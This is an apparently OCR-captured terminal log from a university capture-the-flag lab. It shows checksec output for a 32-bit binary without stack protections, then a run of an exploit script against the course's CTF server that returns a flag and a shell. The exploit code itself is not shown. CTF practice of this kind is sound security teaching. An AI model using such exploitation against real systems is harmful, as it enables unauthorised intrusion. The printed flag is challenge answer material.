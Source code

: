 ```sh
[11/21/21]seed@VM:~/.../challenge2$ checksec program
[*] '/home/seed/ctfs/ctf5/challenge2/program'
    Arch:     i386-32-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments
[11/21/21]seed@VM:~/.../challenge2$ python3 exploit-example.py 
[+] Opening connection to ctf-fsi.fe.up.pt on port 4000: Done
[*] Switching to interactive mode
I like what you got!
flag{dc32b981d1531c796a7e3cb9141bb325}
[*] Got EOF while reading in interactive
$  
```
